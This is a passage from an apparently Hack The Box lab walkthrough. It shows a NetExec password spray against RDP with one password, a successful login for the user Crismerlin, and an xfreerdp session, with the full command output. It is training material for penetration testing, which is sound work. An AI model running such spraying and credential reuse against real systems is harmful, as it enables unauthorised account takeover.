 ```
Ambioris
Filiplain
Xracer
```

Students will return to their workstations and create a wordlist based on the users found in the previous command. The users will be used further in a password spraying attack using `NetExec` and targeting the RDP protocol:

Code: shell

```shell
netexec rdp STMIP -u users.txt -p RedRiot88
```

```
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ netexec rdp 10.129.229.244 -u users.txt -p RedRiot88

RDP         10.129.229.244  3389   SRV01            [*] Windows 10 or Windows Server 2016 Build 17763 (name:SRV01) (domain:inlanefreight.local) (nla:True)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Administrator:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Guest:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\krbtgt:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Redpostmanrd:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Snowfreeze:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Lich:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [+] inlanefreight.local\Crismerlin:RedRiot88 (Pwn3d!)
```

Subsequently, students will proceed to establish an RDP session using the newly found credentials of `Crismerlin:RedRiot88`:

Code: shell

```shell
xfreerdp /v:STMIP /u:Crismerlin /p:RedRiot88 /dynamic-resolution
```

```
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ xfreerdp /v:10.129.229.244 /u:Crismerlin /p:RedRiot88 /dynamic-resolution

[05:00:14:545] [147737:147738] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[05:00:14:545] [147737:147738] [WARN][com.freerdp.crypto] - CN = SRV01.inlanefreight.local
[05:00:16:854] [147737:147738] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[05:00:16:055] [147737:147738] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[05:00:16:056] [147737:147738] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[05:00:16:165] [147737:147738] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[05:00:16:166] [147737:147738] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[05:00:16:166] [147737:147738] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
[05:00:17:058] [147737:147738] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_WARNING [LOGON_MSG_SESSION_CONTINUE]
```
